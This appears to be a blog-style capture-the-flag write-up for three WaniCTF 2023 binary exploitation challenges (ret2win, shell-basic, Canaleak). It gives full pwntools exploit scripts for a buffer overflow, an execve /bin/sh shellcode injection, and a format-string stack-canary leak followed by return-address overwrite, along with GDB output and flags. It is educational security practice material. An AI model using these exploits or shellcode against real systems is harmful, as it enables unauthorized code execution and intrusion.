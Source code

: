 ```yaml
---
layout: post
title:  "PWN challenge"
date:   2023-05-24 14:18 +0200
categories: writeups wanictf 
---
```

# Wani CTF 2023

## ret2win

This is a simple buffer overflow, the aim of this challenge is to jump to the win function.
The payload will be structured as follows:
> Payload = PADDING + win_address()

### Exploit
{% highlight python %}
from pwn import *
#r = process("./chall")

r = remote("ret2win-pwn.wanictf.org", 9003)
offset = 40
win_function = 0x401369
payload = b"A"*offset+p64(win_function)
r.sendline(payload)
r.interactive()
# FLAG{f1r57_5739_45_4_9wn3r}
{% endhighlight %}

## shell-basic
Simple shellcode injection

{% highlight bash %}
[*] '/home/feedz/Desktop/waniCTF/waniCTF_2023/pwn-shell-basic/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
{% endhighlight %}

we can see that NX is disabled and that means we can go with shellcode injection.

### Exploit
{% highlight python %}
from pwn import *

r = remote("shell-basic-pwn.wanictf.org", 9004)
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
r.sendline(shellcode)
r.interactive()
# FLAG{NXbit_Blocks_shellcode_next_step_is_ROP}
{% endhighlight %}
## Canaleak

the aim of this challenge is to leak the stack canary through format string vulnerability and then jump to the win function.

{% highlight python %}
while (strcmp(nope, "YES")) {
    printf("You can't overwrite return address if canary is enabled.\nDo you "
           "agree with me? : ");
    scanf("%s", nope);
    printf(nope);
  }
{% endhighlight %}

the focus is to leak stuff from the stack through printf, as I said first this will help us to leak the stack canary.
we can try to fuzz the stack and try to identify the stack canary.
the stack canary end in 00.

{% highlight bash %}
0: Do you agree with me? : %0$p
1: Do you agree with me? : 0xa
2: Do you agree with me? : (nil)
3: Do you agree with me? : 0x7f32a9619aa0
4: Do you agree with me? : (nil)
5: Do you agree with me? : 0x7fc3bb378040
6: Do you agree with me? : 0x70243625
7: Do you agree with me? : (nil)
8: Do you agree with me? : (nil)
9: Do you agree with me? : 0xef1553a888ae3b00
10: Do you agree with me? : 0x1
11: Do you agree with me? : 0x7fe97bc29d90
12: Do you agree with me? : (nil)
13: Do you agree with me? : 0x401254
14: Do you agree with me? : 0x100000000
{% endhighlight %}

we can see that in the first 15 occurrences only 1 ends with 00.
Number 9 is our candidate

Now let's check better with GDB.
{% highlight gdb %}
You can't overwrite return address if canary is enabled.
Do you agree with me? : %9$p
0xb2431c61d958e500

gef➤  canary
[*] .gef-2b72f5d0d9f0f218a91cd1ca5148e45923b950d5.py:L4935 'checksec' is deprecated and will be removed in a feature release. Use Elf(fname).checksec()
[+] The canary of process 16904 is at 0x7fffffffe2b9, value is 0xb2431c61d958e500
{% endhighlight %}
yes, %9$p will be our stack canary.
let's craft our payload:
> Payload = buffer_padding + canary + padding_rbp + win_address

Note that win fuction starts at 0x40123d but this function will push rbp on the stack, and this will dis-align the stack.
So we can pass 0x401245 directly, which is the syscall to /bin/sh.

{% highlight gdb %}
gef➤  disas win
Dump of assembler code for function win:
   0x000000000040123d <+0>:	endbr64 
   0x0000000000401241 <+4>:	push   rbp
   0x0000000000401242 <+5>:	mov    rbp,rsp
   0x0000000000401245 <+8>:	lea    rdi,[rip+0xdbc]        # 0x402008
   0x000000000040124c <+15>:	call   0x4010d0 <system@plt> 
   0x0000000000401251 <+20>:	nop
   0x0000000000401252 <+21>:	pop    rbp
   0x0000000000401253 <+22>:	ret    
End of assembler dump.
{% endhighlight %}

the stack alignment will look something like this:
{% highlight gdb %}
0x007ffc9282ce08│+0x0008: "AAAAAAAAAAAAAAAA"
0x007ffc9282ce10│+0x0010: "AAAAAAAA"
0x007ffc9282ce18│+0x0018: 0x338641c2c0127900
0x007ffc9282ce20│+0x0020: 0x4242424242424242	 ← $rbp
0x007ffc9282ce28│+0x0028: 0x00000000401245  →  <win+8> lea rdi, [rip+0xdbc]        # 0x402008
{% endhighlight %}
just run the exploit and get the flag!

### Exploit
{% highlight python %}
from pwn import *

r = process("./chall")
#r = remote("canaleak-pwn.wanictf.org",9006)
r.recvuntil(b"You can't overwrite return address if canary is enabled.\n")
r.recv()
r.sendline("%9$p")  # canary leak
canary = int(r.recvline(), 16)
log.info(f'Canary: {hex(canary)}')

payload = b"A"*24  # padding for buffer
payload += p64(canary)  # canary
payload += b"B"*8  # padding to rbp
payload += p64(0x401245)  # addr load rdi
gdb.attach(r,'b *0x4012e8') # dove viene fatto il controllo per il canary

r.sendline(payload)
r.sendlineafter(b" : ", b"YES")
r.interactive()
# FLAG{N0PE!}
{% endhighlight %}

